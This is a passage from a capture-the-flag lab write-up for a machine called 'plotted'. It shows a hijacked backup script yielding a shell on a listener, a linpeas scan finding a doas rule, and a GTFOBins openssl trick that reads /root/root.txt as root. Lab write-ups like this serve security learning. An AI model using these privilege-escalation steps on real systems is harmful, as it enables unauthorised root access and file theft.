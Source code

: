 ```bash
chmod 777 backup.sh
```

After one minute the listener on port `9005` caught the connection:
```bash
lot_admin@plotted:~$ cat user.txt 
[removed]
```

## Privilege Escalation root

Because I didn't find the password of the user or something useful by hand I started the linepeas script.

```bash
╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl  
```

A quick search in <a href="https://gtfobins.github.io/gtfobins/openssl/#file-read">gftobins</a> gave me all I needed:
```bash
plot_admin@plotted:~$ doas -u root openssl enc -in /root/root.txt
Congratulations on completing this room!

[removed]

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
```

solved! :)
